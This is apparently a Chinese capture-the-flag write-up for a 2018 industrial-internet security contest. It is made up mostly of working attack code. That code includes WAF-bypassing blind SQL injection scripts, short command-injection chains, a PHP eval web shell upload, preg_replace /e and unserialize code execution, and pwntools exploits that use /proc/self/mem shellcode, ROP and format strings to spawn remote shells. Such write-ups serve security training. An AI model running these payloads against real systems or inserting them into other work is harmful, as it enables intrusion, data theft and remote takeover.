






# 天枢赛博地球杯工业互联网安全大赛wp

> 2018-1-19日

[TOC]

## Web

### YUN\_WAF\_的突破_青云

ping一下就能拿到真实ip

```
➜  ~ ping qcloudcetc.xctf.org.cn
PING qcloudcetc.xctf.org.cn (139.198.15.25): 56 data bytes
64 bytes from 139.198.15.25: icmp_seq=0 ttl=45 time=6.293 ms
```

findpwd.php username字段有SQL注入，直接sqlmap即可



### YUN\_WAF\_的突破_华为云

费了老大的劲没找到真实IP，那就直接绕吧

参数污染可以绕过华为云，华为云好像检测了传递参数中引号的单双数，于是参数污染的时候第一个参数加个引号即可绕过

脚本如下

```
#coding: utf-8

import requests

session = requests.Session()

flag = 'flag{'
while 1:
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-{}_':
        
        url = 'http://huaweicetc.xctf.org.cn/findpwd.php'

        data = "username=dubhe'&username=dubhe' or password REGEXP BINARY '^" + flag + char + "' #"

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:45.0) Gecko/20100101 Firefox/45.0',
            'Content-Type': 'application/x-www-form-urlencoded'
        }

        http = session.post(url, data=data, headers=headers)

        
        if len(http.content) == 221:
            pass
        else:
            flag = flag + char
            print flag
```

### YUN\_WAF\_的突破_阿里

之前在渗透的时候遇到过阿里云，而且环境和这次比赛的有点像，阿里云对一些比较短且不是很敏感的payload过滤强度不大

脚本如下

```
#coding: utf-8

import requests

session = requests.Session()


flag = 'flag{'
while 1:
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-{}_':
        
        # aliyun 
        url='http://alicetc.xctf.org.cn/findpwd.php'
        data = {
            'username': "dubhe123' or password REGEXP BINARY '^" + flag + char + "'#"
        }

        http = session.post(url, data=data, headers=headers)

        if len(http.content) == 221:
            pass
        else:
            flag = flag + char
            print flag

```

### 工控云管理系统的警告记录

```php
<?php
    if(!isset($_GET['c']) && !isset($_GET['re'])) {
        show_source(__FILE__);
    }

    $selfdir = $_GET['dir'];
    if (!isset($selfdir)) {
      die();
    }
    $secret = '/var/www/html/hackme/' . md5("cetcrce" . $selfdir . $_SERVER['REMOTE_ADDR']);
    @chdir('hackme');
    @mkdir($secret);
    @chdir($secret);

    if (isset($_GET['c']) && strlen($_GET['c']) <= 5) {
        include('waf.php');
        @exec($_GET['c']);
    }elseif(isset($_GET['re'])) {
        @exec('/bin/rm -rf ' . $secret);
        @exec('touch /var/www/html/hackme/index.php');
    }
?>
```

基本算是orange大佬出的原题吧，而且还不带ssrf。

题目可以命令执行，但长度不能超过5个字节，且还有一个waf.php,暂时不管这个waf。

```
#执行 find />x  遍历系统中有权限访问的文件，存入x，下载x就知道系统有哪些文件，找到flag.php，在web目录下
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>find
curl http://47.104.166.183:20008/getflag.php?dir=test&c=*%20/>x
curl http://47.104.166.183:20008/getflag.php?dir=test&re=1

#打包/var目录下所有文件，包括了flag.php
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>tar
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>zcf
curl http://47.104.166.183:20008/getflag.php?dir=test&c=>zzz
curl http://47.104.166.183:20008/getflag.php?dir=test&c=*%20/v*

```

下载就可以了，不过这道题因为后面很多人tar了，导致越后面文件越大，我的有5.1G orzzzzzzzz，然后就直接在第一步找到别人压缩好的，直接捡了 0.0

### 工控云管理系统项目管理页面解析漏洞

获取管理员身份

http://47.104.156.32:20007/index.php?page=123&id=1a9

写shell:

POST http://47.104.156.32:20007/index.php?page=123&id=1a9

DATA: `file=../hh.php/.&con=<?php @eval($_POST[dlive]);?>`

### 工控云管理系统设备维护中心被植入后门

文件读取可以读php代码

http://47.104.74.209:20005/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

```
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

设置XFF为127.0.0.1可以进入管理功能

preg_replace命令执行

```
http://47.104.74.209:20005/index.php?pat=/test/e&rep=system%28%27cat%20./s3chahahaDir/flag/flag.php%27%29;&sub=justtest
```

### 云平台客服中心

给了提示swp，d师傅直接丢给我.index.php.swp、.index.php.swo、.index.php.swn，直接恢复之，拿到index.php源码，部分源码如下：

```php
function download($adfile, $file){
  //Only Administrators can download files .
      $cert = 'N';
    if(isset($adfile) && file_get_contents($adfile, 'r') === 'Yeah Everything Will Be Ok My Boss') {
      echo "Welcome ! You Are Administrator !";
      $cert = 'Y';
    }else{
    ......
}

if (isset($_GET[admin]) && isset($_GET[file])) {

  if (stripos($_GET[admin], 'flag') > 0 || stripos($_GET[file], 'flag') > 0) {
    die('not flag flag flag falg !');
  }

  ......

  download($_GET[admin], $_GET[file]);

?>
```

即传入admin=php://input，post数据 "Yeah Everything Will Be Ok My Boss"，
file=file_list/../includes/upload.php 读取upload源码，如下

```php
<?php

if (!empty($_FILES)) { //properties of the uploaded file 

	$name= $_FILES["filename"]["name"]; 
	$type= $_FILES["filename"]["type"]; 
	$size= $_FILES["filename"]["size"]; 
	$temp= $_FILES["filename"]["tmp_name"]; 
	$error= $_FILES["filename"]["error"]; 
	if (strlen($name) >= 6) { die('name is too long !'); } 
	
	if (stripos($name, './') > 0) { die('invalid parameter'); } 

	if (stripos($name, 'php') > 0) { die('invalid parameter'); } 

	if (substr($name, -3, 3) !== 'zip' && substr($name, -3, 3) !== 'jpg' && substr($name, -3, 3) !== 'png') { die('file can not upload ! '); } 

	if ($error > 0) die("Error uploading file! code $error."); 
	else { 
		if($type !== "application/zip" || $size > 400)//condition for the file 
		{ 
			die("Format not allowed or file size too big!"); 
		} 
		else 
		{ 
			if(file_exists('includes')){ 
				move_uploaded_file($temp, "includes/uploaded/" .$name); 
				echo "Upload complete a!"; 
				shell_exec('sh /var/www/html/includes/unzip.sh');
			}
			elseif(file_exists('uploaded')){ 
				move_uploaded_file($temp, "uploaded/" .$name); 
				echo "Upload complete!"; 
				shell_exec('sh /var/www/html/includes/unzip.sh'); 
			} 
		} 
	} 
}
else{ 
	if(isset($_GET['step']) && strlen($_GET['step']) === 20) { 
		......
		if (preg_match('/[^\w\d_ -]/si', $_GET['step'])) { 
			$_GET['step'] = preg_replace('/[^a-zA-Z0-9_ -]/s', '', $_GET['step']); 
			die('error'); 
		} 
		passthru('cat ' . 'uploaded/' . $_GET['step']); 
	}
	else{ 
		die(); 
	} 
} 
	?> 

```

只能上传后缀jpg、png、和zip，且mimetype 为 application/zip，上传成功后会执行unzip操作，且还会删除uploaded/目录下所有的目录和\*.\*、.\*文件。且还能cat uploaded/目录下的文件，但文件名只能是数字字母_%20-。

这里考虑使用软链接，链上flag文件

```bash
ln -s /var/www/html/flag/flag/flag/flag/flag/flag/flag.php aassddaassddaassddaa
zip -r x.zip -y aassddaassddaassddaa
```

传入step=aassddaassddaassddaa即可，也可以直接访问uploaded/aassddaassddaassddaa。

### 工控管理系统新版本

找回密码功能存在sql注入

http://47.104.1.173:20004/findpwd.php

使用sqlmap可以注入出用户名,密码md5 2f8667f381ff50ced6a3edc259260ba9 解不出来

```
| cdwcewf2e3235y7687jnhbvdfcqsx12324r45y687o98kynbgfvds | c3tlwDmIn23 | 2f8667f381ff50ced6a3edc259260ba9 | cetc     |
```

但是注册用户处可注册同名用户，注册用户名为c3tlwDmIn23的用户然后登陆即可

### 工控系统的敏感消息遭泄漏

Git源码泄露可拿到源码

```
if(isset($ad)){
    // can bypass
    if(ereg("^[a-zA-Z0-9]+$", $ad) === FALSE)
    {
        echo '<script>alert("Sorry ! Again !")</script>';
    }
    elseif(strpos($ad, '--') !== FALSE)
    {
        echo "Ok Evrything will be fine!<br ><br >";
        // $secret不能包含./
				if (stripos($secret, './') > 0) {
					die();
				}
        unserialize($secret);
    }
    else
    {
        echo '<script>alert("Sorry ! You must have --")</script>';
    }
 }
```

ereg函数可被\x00阶段

所以ad可赋值为`a%00--`

然后进入反序列化流程，构造反序列化数据如下，__wakeup可设置属性数量大于真实数量绕过(真实数量为2，这里设置为3)

```
O:6:"Record":3:{s:4:"file";s:23:"Me.php; cat import/Flag";}
```

```
http://47.104.99.231:20003/index2.php?file=Flag&ad=a%00--&secret=O%3A6%3A%22Record%22%3A3%3A{s%3A4%3A%22file%22%3Bs%3A23%3A%22Me.php%3B%20cat%20import%2fFlag%22%3B}
```

## Pwn

### 文件管理器 pwn

- 题目描述

> 这题给了一个FTP程序，可以对目标主机上的任意文件进行读写，这样就可以对/proc/self/mem这个进行进行操作，而/proc/self/mem这个文件是与当前程序的内存进行绑定的，而且可以直接修改内存任意数据，故写一段shellcode进去，直接执行就可以了

```
from pwn import *
import threading
context(arch = 'i386', os = 'linux', endian = 'little')
context.log_level = 'debug'

def login(p, name):
	p.recvuntil(':')
	p.sendline(name)

def read_file(p, name, offset, len):
	p.recvuntil('\x87\xba\x0a')
	p.sendline('1')
	p.recvuntil(':')
	p.sendline(name)
	p.recvuntil(':')
	p.sendline(str(offset))
	p.recvuntil(':')
	p.sendline(str(len))
	return p.recvline()

def write_file(p, name, offset, len, data):
	p.recvuntil('\x87\xba\x0a')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(name)
	p.recvuntil(':')
	p.sendline(str(offset))
	p.recvuntil(':')
	p.sendline(str(len))
	p.recvuntil(':')
	p.sendline(data)

def game_start(ip, port, debug):
	if debug == 1:
		p = process('./fileManager')
	else:
		p = remote(ip, port)

	login(p, 'w1tcher')
	write_file(p, 'test', 0, 20, 'hack by w1tcher')
	data = read_file(p, '/proc/self/maps', 0, 0x100)[0xc:0xc + 8]
	print data
	base = int(data, 16)

	write_file(p, '/proc/self/mem', base + 0x0000D9B, 0x100, asm(shellcraft.sh()))

	p.recvuntil('\x87\xba\x0a')
	p.sendline('1')

	p.interactive()

if __name__ == '__main__':
	game_start('47.104.188.138', 30007, 1)
```

### 黑客游戏 pwn

- 题目描述

> 这题是一个攻击类题目，用户可以利用一个角色和怪物战斗，当成功击败四个怪物的时候，会触发一个有栈溢出的程序，但是按照通常的逻辑，一定无法战胜四个怪物，但是这题中用户的数据是写在文件里面的，而又通过mmap映射的方式映射到内存中去，所以多个线程同时开始的时候，映射的是同一个文件，这样导致某一个线程修改文件，对所有线程都起到同样的效果。而题目提供了一个加血的功能，这样就可以让一个线程攻击，其他线程加血。

```
from pwn import *
import threading
context(arch = 'i386', os = 'linux', endian = 'little')
# context.log_level = 'debug'

class Recovery_thread(threading.Thread):
	def __init__(self, ip, port, debug, name):
		super(Recovery_thread, self).__init__()

		self.__finish = threading.Event()
		self.__exit = threading.Event()
		self.__finish.set()
		self.__exit.clear()
		if debug == 1:
			self.__p = process('./play')
		else:
			self.__p = remote(ip, port)
		login(self.__p, name)

	def run(self):
		while 1:
			self.__finish.wait()
			recovery_hp(self.__p)
			self.__finish.clear()

	def isfinish(self):
		return not self.__finish.isSet()

	def setfinish(self):
		self.__finish.set()

def login(p, name):
	p.recvuntil('login:')
	p.sendline(name)

def recovery_hp(p):
	p.recvuntil('>> ')
	p.sendline(str(2))

def game_exit(p):
	p.recvuntil('>> ')
	p.sendline(str(4))

def recovery(th):
	for t in th:
		t.setfinish()

	for t in th:
		while not t.isfinish():
			pass
def changeskill(p):
	p.recvuntil('>> ')
	p.sendline('3')
	p.recvuntil('>> ')
	p.sendline('1')

def attack(p):
	print p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('(1:yes/0:no):')
	p.sendline('1')

def game_start(ip, port, debug = 0):
	if debug == 1:
		p = process('./play')
		gdb.attach(p, 'b *0x08048EE4')
	else:
		p = remote(ip, port)
	
	login(p, 'w1tcher')
	changeskill(p)
	th = []
	for i in range(30):
		th.append(Recovery_thread(ip, port, debug, 'w1tcher'))
		th[i].start()
		while not th[i].isfinish():
			pass
	num = 0
	for i in range(4):
		recovery(th)
		while 1:
			attack(p)
			num += 1
			data = p.recvn(5)
			if data == 'you f':
				print 'failed'
				sys.exit(0)

			if data == 'you w':
				break

			if num > 4:
				num = 0
				recovery_hp(p)

			recovery(th)
	p.recvuntil('name:')
	mmap_addr = 0x080486B0
	read_addr = 0x080485F0
	retn_addr = 0x08048F02

	rop = ROP('./play')
	rop.call('mmap', [0x233000, 0x1000, 7, 34, -1, 0])
	rop.call('read', [0, 0x233000, 0x100])
	rop.call(retn_addr)
	p.sendline('a' * 0x4c + str(rop)[:-4] + p32(0x233000))
	p.send(asm(shellcraft.sh()))


	p.interactive()

if __name__ == '__main__':
	game_start('47.104.90.157', 30003, 0)
```

### 药物浓度

这题的考点是一个格式化字符串漏洞，计算offset为12之，修改0x804b14c地址的值为0x2223322就可以了。

有个坑点在于修改完了之后，并不知道接下来要干嘛。也没有看见flag。无意间ctrl c后发现了flag。思考了很久并不知道为什么，在此感谢bluecake dalao指出了问题：程序每次刷新时会把flag隐藏掉，因此把每次获取的输入输出即可。

```
from pwn import *
context_level = 'debug'
addr = 0x804b14c
value = 0x2223322
payload = fmtstr_payload(12, {addr:value })  
print payload
#payload = p32(addr) + "|%x"*16
#payload = p32(addr) + 
ip = '47.104.70.11'  
port = 30002
io = remote(ip,port)
io.sendline(payload)

# payload1 = "----%15s====" + p32(addr1)
# print 'aaaa' + payload1
# io.sendline(payload1)
# io.interactive()

while True:
    buf = io.recv(1024)
    print '------'
    print buf
```

### HML流水灯运行

这是一个32位的程序

```shell
root@kali ~/桌面# file HML
HML: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e44f611060874cb49852a28fa7aa14fe06e27da, not stripped
```

检查一下安全机制

```shell
root@kali ~/桌面# checksec HML 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

不难发现，在gee函数中存在栈溢出漏洞，并且没有开启Canary保护，所以可以使用ROP



但是存在一个问题，在主函数中存在一个看上去类似死循环的操作





一开始忽略了alarm并不会阻塞程序执行这一点，导致花了很长时间去思考如何退出循环。事实上，handler里面的代码只会在2s后开始执行，在此期间，代码可以正常继续执行，包括退出当前循环。因此，只要能够及时利用2s的时间输入ROP即可。由于本题没有给libc，需要相关偏移量的话可以用libc-database获取。代码如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

debug = 0

if debug:
    p = process('./HMI')
else:
    p = remote('47.104.188.176', 30004)

if debug: gdb.attach(p, "source debug")
# context.log_level = 'debug'

round_times = 355

for i in range(round_times):
    print i
    buf = p.recvline()
    print buf

time.sleep(1)
pop2ret = 0x08048bca
popret = 0x08048469
pop3ret = 0x08048bc9
pop_ebp = 0x08048bcb
leave_ret = 0x080485a8

bss = 0x804a100

binf = ELF('./HMI')

payload = 'a' * 140
payload += p32(binf.plt['alarm']) + p32(popret) + p32(0)   # 关闭alarm
payload += p32(binf.plt['write']) + p32(pop3ret) + p32(1) + p32(0x08048381) + p32(9) # 印标志位
payload += p32(binf.plt['write']) + p32(pop3ret) + p32(1) + p32(binf.got['read']) + p32(4)   # 泄露read函数地址
payload += p32(binf.plt['read']) + p32(pop3ret) + p32(0) + p32(bss) + p32(0x100) # 在bss段上构造ROP
payload += p32(pop_ebp) + p32(bss - 4) + p32(leave_ret) # 把栈帧调整到bss段上

p.sendline(payload)

libc = ELF('/lib32/libc-2.24.so')

p.recvuntil('GLIBC_2.0')
read_addr = u32(p.recv(4))
print 'leak read addr is: ', hex(read_addr)
if not debug:
    offset_read = 0x000d4350
    offset_str_bin_sh = 0x15900b
    offset_execve = 0x000af590
else:
    offset_read = libc.symbols['read']
    offset_execve = libc.symbols['execve']
    offset_str_bin_sh = libc.search('/bin/sh').next()

libcbase = read_addr - offset_read
print 'got libcbase:', hex(libcbase)

execve_addr = libcbase + offset_execve
bin_sh = libcbase + offset_str_bin_sh 
print 'got execve addr:', hex(execve_addr)
print 'got /bin/sh addr:', hex(bin_sh)
rop = p32(execve_addr) + p32(0) + p32(bin_sh) + p32(0) + p32(0)
p.sendline(rop)
p.interactive()
```
## Reverse

### PLC时钟误差

分析代码，只要输入的参数能够让程序运行超过10s即可获得shell



直接获得shell



事实上，测试后发现，当v5=1, v4=159可以获得最优解，来测试一下最优解运行的时间，测试代码如下

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process(['time', './time'])
p.sendline('159')
p.sendline('1')
p.interactive()
```

经过测试发现，总的运行时间在10.84s左右，那么出去程序初始化的1s，实际上后面的运行时间是低于10s的，那么直接同时开多个进程跑就行了，猜测在多进程的情况下会增加内核调度负担，进一步增加时间延迟，代码如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *
max_i = 0
max_j = 0
max_v = 0
for i in range(1, 200):
    for j in range(1, 100):
        value = (2544 / j / i)  * (2 * i - 2) * j
        # print i,j,value
        if value > max_v:
            max_i = i
            max_j = j
            max_v = value

print max_i, max_j, max_v


while True:
    conn = []
    
    size = 300
    for i in range(size):
        p = remote('47.104.177.194', 30005)
        # p = process('./time')
        p.sendline('159')
        p.sendline('1')
        # p.interactive()
        conn.append(p)

    time.sleep(11)
    for i in range(size):
        print i
        try:
            conn[i].sendline('echo aabbccdd') 
            data = conn[i].recvuntil('aabbccdd', timeout=1)
            if data != '':
                conn[i].interactive()
        except KeyboardInterrupt:
            exit(0)
        except EOFError as e:
            print e
            conn[i].close()
```